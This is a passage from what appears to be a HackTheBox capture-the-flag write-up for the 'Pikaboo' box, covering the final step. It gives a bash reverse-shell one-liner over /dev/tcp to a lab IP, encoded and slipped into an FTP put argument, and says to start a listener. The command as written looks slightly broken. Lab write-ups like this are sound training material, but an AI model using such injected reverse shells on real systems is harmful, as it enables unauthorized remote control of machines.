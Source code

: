 I will now try to get reverse shell.

Using normal bash oneliner wasn't working as it was colliding. So I had to base64 the command and execute that way.

1. Base64 the bash one-liner command `echo "bash -c 'bash -i >& /dev/tcp/10.10.14.5 0>&1'; " | base64 -d `
2. Enter the output from the above command into FTP's terminal as `put`'s argument as you can see **1** in below image 
3. Make sure to start listener as mentioned in **2** step of the image

<img src="/image/hackthebox/pikaboo/22.png" alt="22" style="zoom: 50%;" />

It was a long journey and fun box.
